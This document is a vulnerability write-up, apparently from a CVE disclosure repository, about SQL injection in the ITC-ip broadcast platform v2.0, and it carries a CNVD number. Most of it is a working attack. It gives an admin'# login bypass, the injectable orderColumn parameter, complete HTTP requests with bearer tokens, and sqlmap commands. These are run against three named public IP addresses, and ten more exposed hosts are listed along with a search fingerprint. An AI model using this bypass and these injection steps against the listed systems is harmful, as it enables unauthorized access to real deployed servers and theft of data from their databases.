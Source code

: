 sql injection exists in ITC-ip service broadcast platform of Guangdong Paulan Electronics Co., LTD

Vulnerability Description 

There is sql injection in the background of ITC-ip service broadcasting platform of Guangdong Baolun Electronics Co., LTD. Attackers can obtain sensitive database information through this vulnerability

Certificate of Company assets

![]([.\picture\wps1.jpg](https://github.com/chennuo17/cve/blob/main/picture/wps1.jpg))

https://pa.itc-pa.cn/

Affects Version: v2.0

Influence routing:

/api/v2/maps?page=1&limit=10&orderColumn=id\*&orderType=desc&likeName=

injection parameter:orderColumn

Space mapping： icon_hash="-568806419"

![](.\picture\wps2.jpg) 

Note: The vulnerability needs to log in to the background to obtain valid credentials to be carried out, you can use the front desk universal password    -admin‘#  Password-free access

Example I

 

 

http://60.170.49.111:81/login

use     admin’#/123456   Login successfully

![](.\picture\wps3.jpg) 

Call the following interface for sql injection, the cookie is time-sensitive, please review and replace it by yourself

GET /api/v2/maps?page=1&limit=10&orderColumn=id*&orderType=desc&likeName= HTTP/1.1

Host: 60.170.49.111:81

Accept: application/json, text/plain, */*

X-Requested-With: XMLHttpRequest

authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE3MTYzOTgwOTgsImlhdCI6MTcxNjM5MDU5OCwiaXNzIjoiSVAiLCJwbGF0Zm9ybSI6IndlYiIsInN1YiI6ImFsbCIsInR5cCI6IkpXVCIsInVzZXJzX2lkIjoyfQ.bap1Bl--bYOVdzaFvQCLVPLSSHCb43XEfacMzcOnr5k

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36 Edg/125.0.0.0

Referer: http://60.170.49.111:81/monitor/map

Accept-Encoding: gzip, deflate

Accept-Language: zh-CN,zh;q=0.9

Connection: close

 

 

 

***\*python sqlmap.py -r ../url.txt --batch\**** 

![](.\picture\wps4.jpg) 

Instance II

[***\*http://110.53.52.41:82/login\****](http://110.53.52.41:82/login)

use admin'# / 123456 Login successfully

![](.\picture\wps5.jpg) 

Call the following interface for sql injection, the cookie is time-sensitive, please review and replace it by yourself

 

***\*GET /api/v2/maps?page=1&limit=10&orderColumn=id\*&orderType=desc&likeName= HTTP/1.1\****

***\*Host: 110.53.52.41:82\****

***\*Accept: application/json, text/plain, \*/\*\****

***\*X-Requested-With: XMLHttpRequest\****

***\*authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE3MTYzOTgwOTgsImlhdCI6MTcxNjM5MDU5OCwiaXNzIjoiSVAiLCJwbGF0Zm9ybSI6IndlYiIsInN1YiI6ImFsbCIsInR5cCI6IkpXVCIsInVzZXJzX2lkIjoyfQ.bap1Bl--bYOVdzaFvQCLVPLSSHCb43XEfacMzcOnr5k\****

***\*User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36 Edg/125.0.0.0\****

***\*Referer: http://60.170.49.111:81/monitor/map\****

***\*Accept-Encoding: gzip, deflate\****

***\*Accept-Language: zh-CN,zh;q=0.9\****

***\*Connection: close\****

 

 

 

***\*python sqlmap.py -r ../url.txt --batch\**** 

![](.\picture\wps6.jpg) 

***Instance Ⅲ***

[***\*http://111.34.17.42:81/login\****](http://111.34.17.42:81/login)

*use admin'# / 123456 Login successfully*

![](.\picture\wps7.jpg) 

Call the following interface for sql injection, the cookie is time-sensitive, please review and replace it by yourself

 

GET /api/v2/maps?page=1&limit=10&orderColumn=id*&orderType=desc&likeName= HTTP/1.1

Host: 111.34.17.42:81

Accept: application/json, text/plain, */*

X-Requested-With: XMLHttpRequest

authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE3MTYzOTgwOTgsImlhdCI6MTcxNjM5MDU5OCwiaXNzIjoiSVAiLCJwbGF0Zm9ybSI6IndlYiIsInN1YiI6ImFsbCIsInR5cCI6IkpXVCIsInVzZXJzX2lkIjoyfQ.bap1Bl--bYOVdzaFvQCLVPLSSHCb43XEfacMzcOnr5k

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36 Edg/125.0.0.0

Referer: http://60.170.49.111:81/monitor/map

Accept-Encoding: gzip, deflate

Accept-Language: zh-CN,zh;q=0.9

Connection: close

 

***\*python sqlmap.py -r ../url.txt --batch\****

![](.\picture\wps8.jpg) 

 

Other cases

\4. http://221.182.106.148:81/

\5. http://218.206.129.237:81/

\6. http://120.236.127.42:81/

\7. http://118.121.231.180:8181/login

\8. http://blojj2.sfsyxx.cn:81/login

\9. http://60.170.49.111:81/login

\10. http://58.42.97.3:81/login

\11. http://47.109.137.239/login

\12. http://61.157.98.107:8025/audio/media

\13. http://qjjsxy.com:81/login

 

# CNVD certificate number

CNVD-YCGW-202405084002

